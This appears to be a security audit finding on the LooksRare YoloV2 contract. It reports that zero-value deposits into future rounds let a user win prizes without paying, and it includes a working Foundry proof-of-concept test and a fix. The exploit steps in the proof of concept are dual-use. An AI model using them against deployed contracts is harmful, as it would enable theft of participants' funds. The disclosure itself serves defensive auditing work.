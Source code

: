 Amusing Emerald Zebra

high

# Malious users can drain the prize from the winner

## Summary

A critical vulnerability exists in the Yolo contract that allows malicious users to deposit zero ETH into future rounds, potentially draining prizes and disrupting normal operations.

## Vulnerability Detail

The function `depositETHIntoMultipleRounds` allows users to deposit ETH into multiple rounds at once. However, this function only verifies if the total `msg.value` is greater than 0, without checking the individual deposit amounts in the amounts array.

        function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
            uint256 numberOfRounds = amounts.length;
            if (msg.value == 0 || numberOfRounds == 0) {
                revert ZeroDeposits();
            }

https://github.com/sherlock-audit/2024-01-looksrare/blob/314fd5b753359e07778724342de8dda20713ec2e/contracts-yolo/contracts/YoloV2.sol#L312-L316

This loophole allows a user to deposit a non-zero amount in one round and zero in subsequent rounds. For example, a malicious user could submit an array like `[0.01, 0, 0, 0]`, passing the total value check while effectively depositing nothing in some rounds.

The `_depositETH` function also doesn't check for zero deposit amounts:

        function _depositETH(
            Round storage round,
            uint256 roundId,
            uint256 roundValuePerEntry,
            uint256 depositAmount
        ) private returns (uint256 entriesCount) {
            entriesCount = depositAmount / roundValuePerEntry;

https://github.com/sherlock-audit/2024-01-looksrare/blob/314fd5b753359e07778724342de8dda20713ec2e/contracts-yolo/contracts/YoloV2.sol#L1417-L1424

Allowing users to deposit to unlimited future rounds with amount = 0 has multiple serious implications. It allows malicious users to DOS the future rounds by increaing number of participants without paying, allowing a round with only one actual participant to be drawn so that participant has to pay the fee to withdraw deposits. In the most serious consequence, the malicious user can drain all the rewards from the round.

Details can be checked in the POC.

- Put in `test/foundry/Yolo.fulfillRandomWords.t.sol`
- Run `forge test -vvvvv --match-path test/foundry/Yolo.fulfillRandomWords.t.sol --match-test testHackPOC`

```javascript

  function testHackPOC() public {

        // user 2 is malicious
        vm.deal(user2, 0.01 ether);
        // user 3 is a normal user
        vm.deal(user3, 0.1 ether);

        // user 3 deposit eth multiple rounds in round 1 and 2
        uint256[] memory amountsMulti1 = new uint256[](2);
        amountsMulti1[0] = 0.05e18;
        amountsMulti1[1] = 0.05e18;
        vm.prank(user3);
        yolo.depositETHIntoMultipleRounds{value: 0.1 ether}(amountsMulti1);


        // user 2 deposit eth multiple round with amount 0 in round 2
        uint256[] memory amountsMulti = new uint256[](2);
        amountsMulti[0] = 0.01e18;
        amountsMulti[1] = 0;
        vm.prank(user2);
        yolo.depositETHIntoMultipleRounds{value:0.01e18}(amountsMulti);

        // end round 1 - normal
        vm.warp(block.timestamp + 11 minutes);
        yolo.drawWinner();

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 99;

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords{gas: 500000}(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        // end round 2 - interesting thing happens
        vm.warp(block.timestamp + 11 minutes);
        yolo.drawWinner();

        uint256[] memory randomWords2 = new uint256[](1);
        randomWords2[0] = 4; // With random words return 4, 9, 14, 19,... the winner will be assigned to user 2

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords{gas: 500000}(97101810247967952848970932981456518489990405688176491887859608349397797467324, randomWords2);

        // user 2 claim the reward in second round even though does not deposit anything in that round.
        uint256[] memory prizesIndices = new uint256[](1);
        prizesIndices[0] = 0;
        IYoloV2.WithdrawalCalldata[] memory withdrawalCalldata = new IYoloV2.WithdrawalCalldata[](1);
        withdrawalCalldata[0].roundId = 2;
        withdrawalCalldata[0].depositIndices = prizesIndices;
        vm.prank(user2);
        yolo.claimPrizes(withdrawalCalldata, false);

        // User 2 get 0.0485 ETH rewards
        assertEq(user2.balance, 0.0485e18);
  }

```

## Impact

This vulnerability can be exploited to:

- Drain prizes from a round without a valid contribution.
- Disrupt the functioning of the contract by flooding rounds with zero-value entries.
- Enable drawing a winner in a round with effectively only one real participant.

## Code Snippet

https://github.com/sherlock-audit/2024-01-looksrare/blob/314fd5b753359e07778724342de8dda20713ec2e/contracts-yolo/contracts/YoloV2.sol#L312-L316

## Tool used

Manual review

## Recommendation

Modify the `_depositETH` function to include a check ensuring that the depositAmount is non-zero:

```diff
    function _depositETH(
        Round storage round,
        uint256 roundId,
        uint256 roundValuePerEntry,
        uint256 depositAmount
    ) private returns (uint256 entriesCount) {
+       require(depositAmount != 0);
        entriesCount = depositAmount / roundValuePerEntry;
```